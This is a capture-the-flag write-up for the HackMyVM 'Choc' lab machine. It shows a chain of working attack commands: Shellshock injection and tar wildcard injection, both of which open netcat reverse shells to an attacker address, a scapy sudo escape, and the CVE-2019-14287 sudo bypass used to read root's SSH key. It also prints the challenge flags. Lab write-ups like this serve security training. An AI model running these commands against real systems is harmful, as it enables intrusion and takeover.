

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">Choc</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge hard">HARD</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Hard</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.122</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Choc** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We start by scanning the target with Nmap:

```bash
nmap -p- -sC -sV 192.168.56.122
```

#### Open Ports:
```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 0        0            1811 Apr 20  2021 id_rsa [NSE: writeable]
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
```

### 2. Anonymous FTP Enumeration
We log in anonymously to FTP and download the `id_rsa` file:

```text
ftp> ls -lah
-rwxrwxrwx    1 0        0            1811 Apr 20  2021 id_rsa
```

After downloading and decoding the Base64 content within the file, we can extract the username hint: `carl@choc`.

---

## 🚀 Phase 2: Foothold via Shellshock (CVE-2014-6271)

### 1. SSH Shellshock Exploitation
Attempting to log in via SSH using the key connects successfully but then immediately disconnects — the login shell appears to be restricted or closing immediately.

We exploit the Bash Shellshock vulnerability (`CVE-2014-6271`) by injecting a malicious function definition directly as an SSH command:

```bash
ssh carl@192.168.56.122 -i id_rsa '() { :;}; nc 192.168.56.102 9999 -e /bin/bash'
```

We start a listener to catch the reverse shell:
```bash
nc -lnvp 9999
```

```text
Connection received on 192.168.56.122
id
uid=1000(carl) gid=1000(carl) groups=1000(carl)
```

---

## ⚡ Phase 3: Lateral Movement — carl → torki → sarah → root

### 1. Enumeration as carl
Exploring the `/home` directory, we discover three users: `carl`, `sarah`, and `torki`.

Inside `/home/torki`, we find a `backup.sh` script and a backup archive at `/tmp/backup_home.tgz`. The archive shows that `tar` is being run on the `/home/torki/secret_garden/` directory regularly.

### 2. Tar Wildcard Injection
We exploit the classic `tar` wildcard injection attack to gain code execution as `torki`.

We plant checkpoint files and a malicious script inside the `secret_garden` directory:

```bash
echo '' > /home/torki/secret_garden/--checkpoint=1
echo '' > '/home/torki/secret_garden/--checkpoint-action=exec=sh pwn.sh'
echo 'nc 192.168.56.102 8888 -e /bin/bash' > /home/torki/secret_garden/pwn.sh
chmod +x /home/torki/secret_garden/pwn.sh
```

When `tar` expands the wildcard `*`, the specially named files are interpreted as command-line arguments, triggering execution of `pwn.sh`.

We start a listener:
```bash
nc -lnvp 8888
```

After a moment, when `backup.sh` runs, we receive a shell as `torki`:
```text
Connection received on 192.168.56.122
id
uid=1002(torki) gid=1002(torki) groups=1002(torki)
```

### 3. Lateral Movement torki → sarah via Scapy
We check `torki`'s sudo privileges:

```bash
sudo -l
```
```text
User torki may run the following commands on choc:
    (sarah) NOPASSWD: /usr/bin/scapy
```

We run `scapy` as `sarah` and abuse the Python `pty` module to spawn a full interactive shell:

```bash
sudo -u sarah /usr/bin/scapy
```

Inside the Scapy interactive Python shell:
```python
import pty
pty.spawn("/bin/bash")
```

```text
sarah@choc:/home/torki/secret_garden$ whoami
sarah
```

We retrieve the user flag:
```bash
cat /home/sarah/user.txt
```
Output: `commenquaded`

### 4. Privilege Escalation sarah → root via CVE-2019-14287
We check `sarah`'s sudo permissions:

```bash
sudo -l
```
```text
User sarah may run the following commands on choc:
    (ALL, !root) NOPASSWD: /usr/bin/wall
```

We check the sudo version:
```bash
sudo --version
```
```text
Sudo version 1.8.23
```

`Sudo 1.8.23` is vulnerable to **CVE-2019-14287** (Sudo Security Bypass). By using the special user ID `-1` (which resolves to UID 0 in some sudo versions), we can bypass the `!root` restriction.

We use `wall` to read and broadcast the root SSH private key to all currently logged-in users (including our active SSH sessions):

```bash
sudo -u#-1 /usr/bin/wall --nobanner /root/.ssh/id_rsa
```

We receive the root's SSH private key broadcast to our SSH terminal session. We save it locally as `root_id_rsa` and connect:

```bash
chmod 600 root_id_rsa
ssh -i root_id_rsa root@192.168.56.122
```

```text
root@choc:~# whoami
root
```

We retrieve the root flag:
```bash
cat /root/r00t.txt
```
Output: `inesbywal`
